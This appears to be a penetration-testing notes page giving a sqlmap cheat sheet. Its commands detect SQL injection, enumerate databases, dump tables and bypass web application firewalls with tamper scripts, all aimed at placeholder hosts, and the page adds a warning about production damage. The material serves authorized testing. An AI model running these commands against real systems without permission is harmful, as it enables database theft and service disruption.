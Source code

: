 ```yaml
---
description: >-
  sqlmap is an open source penetration testing tool that automates the process
  of detecting and exploiting SQL injection flaws and taking over of database
  servers.
---
```


# sqlmap

{% embed url="https://sqlmap.org/" %}

{% hint style="danger" %}
Just like any fuzzing tool, these scans need to be slowed down when testing production instances as it could lead to an unintended denial of service. In addition to that, testers need to use those tools with the greatest care since creating issues with production instances databases (like overwriting or deleting data) could have a serious fallout.
{% endhint %}

### Common techniques

{% code overflow="wrap" %}
```bash
# GET Request  
sqlmap -u “http://takumatest.domain/param1=value1&param2=value2"

# GET Request with a specific param
sqlmap -u “http://takumatest.domain/param1=value1&param2=value2" -p param2

# No User Interaction
sqlmap  -u “http://takumatest.domain/" --batch 

# Enumerate database
sqlmap  -u “http://takumatest.domain/" --dbs 

# Enumerate tables
sqlmap -u “http://takumatest.domain/" -D target_DB --tables

# Dump tables 
sqlmap --dbms=mysql -u “http://takumatest.domain/" -D target_DB -T target_Table --dump

# List Columns
sqlmap --dbms=mysql -u “http://takumatest.domain/" -D target_DB -T target_Table --columns 

# POST Request
sqlmap --dbms=mysql -u “http://takumatest.domain/" --data=”data1=aaa&data2=bbb”

# With cookies
python sqlmap.py -u "http://targeturl" --cookie="param1=value1*;param2=value2" 

# Level and Risk
python sqlmap.py -u "http://targeturl" --dbms=mysql --level 5 and --risk 3 

# Combinations 
sqlmap -u ‘http://targeturl/' --data=’param1=blah&param2=blah’ --cookie=’JSESSIONID=d02084cbe50e16aa4' --batch --threads=10 --level=5 --risk=3 -p param1

# BURP File
sqlmap -r metapress.req -p total_service --batch -dump 

# WAF Bypass 
-tamper=”between,randomcase,space2comment”

sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --\
tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -vvv  

# Clear cache
--fresh-queries
--flush-session
```
{% endcode %}
